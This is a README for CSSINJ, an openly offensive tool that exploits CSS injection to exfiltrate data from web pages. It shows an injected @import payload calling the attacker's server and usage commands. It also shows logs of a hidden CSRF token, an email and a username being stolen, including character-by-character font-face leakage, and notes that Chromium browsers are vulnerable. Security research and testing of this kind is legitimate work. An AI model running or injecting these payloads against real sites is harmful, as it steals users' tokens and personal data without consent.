 ```yaml
---

# CSSINJ  

```
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|
```

## About  

**CSSINJ** is a penetration testing tool that exploits [**CSS injection vulnerabilities**](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection) to exfiltrate sensitive information from web applications. This tool is designed for security professionals to assess the security posture of web applications by demonstrating how CSS can be used to extract data covertly.  


## Installation  

To install and set up **CSSINJ** from Source, run the following commands:  

```bash
git clone https://github.com/DonAsako/CSSinj.git
cd CSSinj
python3 -m venv venv  
source venv/bin/activate
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade build
python3 -m build
python3 -m pip install .
```

Now you’re ready to use **CSSINJ**! 🎯  

## Usage  

```bash
python3 -m cssinj [-h] -H HOSTNAME -p PORT [-e ELEMENT] [-a ATTRIBUT] [-d] [-m {recusive,font-face}]
```

### Options  

| Option                 | Description                                 |
|------------------------|---------------------------------------------|
| `-h, --help`           | Show help message and exit                  |
| `-H, --hostname`       | Attacker hostname or IP address             |
| `-p, --port`           | Port number of the attacker                 |
| `-e, --element`        | HTML element to extract specific data       |
| `-a, --attribut`       | Specify an element Attribute Selector for exfiltration     |
| `-d, --details`        | Show detailed logs of the exfiltration process, including extracted data |
| `-m, --method`        | Specify the type of exfiltration (recusive or font-face) |

### Example  

#### Victim's View :
```html
<h1>Welcome on my page !</h1>
<input type="text" id="username" value="admin" disabled>
<input type="email" id="email" value="admin@admin.XX" disabled>
<input type="text" class="csrf" value="MySecretAdminToken" hidden>
<img src="XXXXXXXXXXX.XX">
...
```

<style>
  @import url('//localhost:5005/start');
</style>
...
```

#### Recursive attack
###### Using a specific HTML identifier : 

```bash
~ python3 CSSINJ.py inject -H 127.0.0.1 -p 5005 -e input
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : MySecretAdminToken
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : admin@admin.XX
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : admin
```

###### Using a specific CSS attribute selector and a generic HTML identifier:

```bash
~ python3 CSSINJ.py -H 127.0.0.1 -p 5005 -e * -a src
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ [1] - The src exfiltrated from * is : XXXXXXXXXXX.XX
```

#### Font-face attack
```bash
~ python3 -m cssinj -H 127.0.0.1 -p 5005 -e h1 --method font-face
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-05-21 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-05-21 03:06:49] 🌐 Connection from 127.0.0.1
[2025-05-21 03:06:49] ⚙️ ID : 1
[2025-05-21 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-05-21 03:06:49] 🌐 Connection from 127.0.0.1
[2025-05-21 03:06:49] ⚙️ ID : 1
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 :  
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : e
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : W
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : l
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : c
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : o
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : m
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : n
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : y
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : p
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : a
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : g
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : !
```

## Browser-Specific Behavior

The success of CSS injection attacks using @import depends on the browser's handling of CSS imports:
- Chromium-based browsers (Chrome, Edge, Brave, etc.) allow recursive CSS imports and will process the injected styles, making them vulnerable to exfiltration techniques using @import.

- Firefox, however, handles @import differently:
  - Unlike Chromium-based browsers, Firefox processes all @import rules before applying any styles.
  - As a result, the attack fails because the browser never processes the CSS selectors, preventing data exfiltration.
  - This behavior causes an infinite loop where the browser keeps waiting for a CSS update that never happens.

This difference in behavior makes Chromium-based browsers more susceptible to CSS injection exfiltration, while Firefox provides better protection against such attacks.

## Todo
- General : 
  - [ ] Add error Handler
  - [ ] Add test
  - [ ] Edit Terminal

- Injection : 
  - [x] Add injection parameters
  - [ ] Add an option to save results to a file
  - [ ] Allow multiple CSS selectors for simultaneous extraction
  - [ ] Add g all of the page
  - [x] Refract cssinjector.py
  - [ ] Add timeout


## Disclaimer  

This tool is intended **only for ethical hacking and security research**. **Unauthorized use on systems without explicit permission is illegal**. The developer **is not responsible** for any misuse of this tool.  

## Author  

**CSSINJ** was developed by **Asako**.
